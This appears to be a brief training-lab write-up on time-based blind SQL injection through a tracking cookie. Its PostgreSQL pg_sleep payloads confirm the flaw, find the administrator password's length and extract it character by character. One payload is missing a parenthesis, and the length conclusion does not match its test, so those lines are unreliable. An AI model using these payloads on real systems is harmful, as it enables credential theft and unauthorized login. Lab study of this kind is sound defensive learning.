 **Lab: Blind SQL injection with time delays and information retrieval**
*Vulnerable parameter - tracking cookie*
*- Goals:*
1. Exploit the username and password with Blind SQL injection time-based
2. Log in as `administrator`
   
*- Analysis:*
1. Confirm that website is vulnerable by SQL injection time-based:
> `select trackingId from trackingIdTable where trackingId='nxZQWXiHrba8lG0R' || (SELECT pg_sleep(10))--`

-> 200 Ok
2. Confirm that the users table exist in the database:
> ` '|| (SELECT CASE WHEN (username='administrator') then pg_sleep(10) else pg_sleep(-1) end from users)--`

-> 200 OK
3. Enumerate the length of password
> ` '|| (SELECT CASE WHEN (username='administrator' and LENGTH(password) >20 then pg_sleep(10) else pg_sleep(-1) end from users)--`

-> 200 OK -> The length of password included 20 characters
4. Enumerate the password
> ` '|| (SELECT CASE WHEN (username='administrator' and substring(password,1,1)='a') then pg_sleep(10) else pg_sleep(-1) end from users)--`

-> Use Intruder to calculate with mode Cluster bomb: 

*`LAB SOLVED`*
![alt text](result.png)
